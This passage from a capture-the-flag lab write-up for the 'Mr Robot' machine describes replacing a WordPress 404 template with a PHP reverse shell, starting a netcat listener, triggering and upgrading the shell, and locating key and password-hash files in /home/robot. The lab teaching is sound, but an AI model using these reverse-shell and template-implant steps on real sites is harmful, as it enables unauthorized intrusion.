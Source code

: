 After selecting "editor," you’ll be presented with a template that includes comments and HTML code. On the right-hand sidebar, there is a list of available templates for editing. The presence of code in this initial template suggests that any changes made here will likely be executed when the corresponding page is accessed.  The first template in the list on the right-hand sidebar is the 404 template, which is typically displayed to users when they encounter a "Page Not Found" error on the website. Modifying this template could potentially allow for executing custom code when a 404 error page is triggered.

![404 Template](THM-writeups/MrRobot/resources/robot_404.gif)


It's written in PHP, so let's replace it with a PHP reverse shell from https://www.revshells.com/
## Shell Access and Key 2
#### Reverse Shell via WordPress

1. **Appearance > Editor > 404 Template**: Added PHP reverse shell code and clicked the "Update File" button below the code block.
2. **Started listener** on local machine. `nc -lvnp 4445`
3. **Triggered shell** by visiting `http://MACHINE_IP/404`.

Now that we have our reverse shell, let's upgrade it!

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo
```

Now that we've gained access, let's make our way to the home folder, a common directory for finding flags, clues, etc. post foothold.  

`cd home`

Only one user, that makes our job easy.

`cd robot`

Found `key-2-of-3.txt` and `password.raw-md5` in `/home/robot`:
